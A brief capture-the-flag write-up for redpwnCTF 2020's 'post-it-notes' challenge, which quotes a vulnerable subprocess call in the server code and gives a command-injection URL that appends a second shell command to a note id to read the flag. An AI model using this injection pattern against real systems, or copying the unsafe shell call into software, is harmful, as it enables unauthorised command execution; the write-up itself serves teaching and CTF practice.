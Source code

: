 ```yaml
---
layout: post
title: "post-it-notes"
author: "shreyas-sriram"
---
```


Request smuggling has many meanings. Prove you understand at least one of them at `2020.redpwnc.tf:31957`.

Note: There are a lot of time-wasting things about this challenge. Focus on finding the vulnerability on the backend API and figuring out how to exploit it.

## Files
* [source.zip]({{site.baseurl}}/assets/post-it-notes/source.zip)

# Solution
> Note : This solution is unintended.

* Although the challenge description says **Request smuggling**, the solution provided here uses **command injection**
* In `api/server.py`, there is a **subprocess** to retrieve **notes** using the **\<nid\>**<br/>
``` subprocess.Popen(f"cat 'notes/{nid}' ```
* This can be exploited to read the flag<br/>
`http://2020.redpwnc.tf:31957/notes/<original-note-id>'&&cat%20flag.txt'`<br/>
`flag{y0u_b3tt3r_n0t_m@k3_m3_l0s3_my_pyth0n_d3v_j0b}`

> Note : There are more than one ways to solve a problem.
